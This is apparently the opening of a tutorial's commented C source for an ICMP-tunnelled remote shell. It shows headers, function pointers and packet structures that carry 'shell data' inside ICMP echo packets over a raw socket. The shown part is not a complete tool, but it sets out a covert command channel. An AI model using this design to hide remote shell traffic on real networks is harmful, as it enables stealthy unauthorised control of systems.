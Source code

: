 The complete source code has been commented for readibility and is presented below. It should be self-explanatory:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <linux/ip.h>
#include <linux/icmp.h>

/* Helper functions */
#define BUF_SIZE 1024

// two function pointers that we can easily change (at run-time)
// to point to different implementation.
static int (*net_read)(int fd, void *buf, size_t count);
static int (*net_write) (int fd, void *buf, size_t count);

static int icmp_type = ICMP_ECHOREPLY;;
static int id = 12345;

// This struc represents a packet as it is read from
// a IPPROTO_ICMP RAW socket. The RAW socket will return
// an IP header, then a ICMP header followed by the data.
//
// In this example, and again, to keep things simple,
// we are using a fixed packet format. Our data packet
// is composed of an integer indicating the size of the
// data in the packet, plus a data block with a maximum
// size of BUF_SIZE. So our packets will look like this:
//
// +-----------+-------------+-------------------+
// | IP Header | ICMP Header | Len  | shell data |
// |           +-------------+-------------------+
// +---------------------------------------------+
typedef struct
{
        struct iphdr ip;
        struct icmphdr icmp;
        int len;
        char data[BUF_SIZE];     /* Data */
} PKT;

// struct to write into the network our shell data within
// ICMP packets.
//
// This represents the packet we will be sending. By default,
// sockets RAW does not give us access to the IP header. This
// is convenient as we do not have to care about feeding IP
// addressed or calculating checksums for the whole IP packet.
// It can indeed be forced, but in this case it is just not
// convenient. That is why our transmission packet does not
// have an IP header. If you need to access the IP header,
// you can do it using the IP_HDRINCL socket option
// (man 7 raw for more info).
typedef struct {
        struct icmphdr icmp;
        int len;
} PKT_TX;
```